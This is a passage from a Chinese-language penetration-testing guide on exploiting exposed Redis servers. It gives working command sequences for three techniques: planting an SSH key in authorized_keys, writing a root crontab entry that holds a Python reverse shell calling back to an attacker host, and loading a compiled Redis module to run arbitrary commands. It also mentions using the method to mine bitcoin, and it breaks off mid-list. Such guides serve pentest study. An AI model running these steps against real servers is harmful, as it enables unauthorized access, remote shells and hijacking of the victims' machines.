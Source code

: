 ### SSH

示例 [来自这里](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)

请注意 **`config get dir`** 的结果可能会在其他手动利用命令后发生变化。建议在登录 Redis 后立即运行它。在 **`config get dir`** 的输出中，您可以找到 **redis 用户** 的 **主目录**（通常是 _/var/lib/redis_ 或 _/home/redis/.ssh_），知道这一点后，您就知道可以在哪里写入 `authenticated_users` 文件以通过 ssh **以 redis 用户身份** 访问。如果您知道其他有效用户的主目录并且您有可写权限，您也可以利用它：

1. 在您的电脑上生成 ssh 公私钥对：**`ssh-keygen -t rsa`**
2. 将公钥写入文件：**`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. 将文件导入 redis：**`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4. 将公钥保存到 redis 服务器上的 **authorized\_keys** 文件：

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```
5. 最后，您可以使用私钥 **ssh** 到 **redis 服务器**：**ssh -i id\_rsa redis@10.85.0.52**

**此技术在这里自动化：** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab
```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
最后一个例子是针对 Ubuntu 的，对于 **Centos**，上述命令应该是： `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

此方法也可以用来赚取比特币：[yam](https://www.v2ex.com/t/286981#reply14)

### 加载 Redis 模块

1. 按照 [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) 的说明，您可以 **编译一个 redis 模块以执行任意命令**。
2. 然后您需要某种方式来 **上传编译好的** 模块。
3. **在运行时加载上传的模块**，使用 `MODULE LOAD /path/to/mymodule.so`。
4. **列出已加载的模块**，以检查它是否正确加载： `MODULE LIST`。
5. **执行** **命令**：
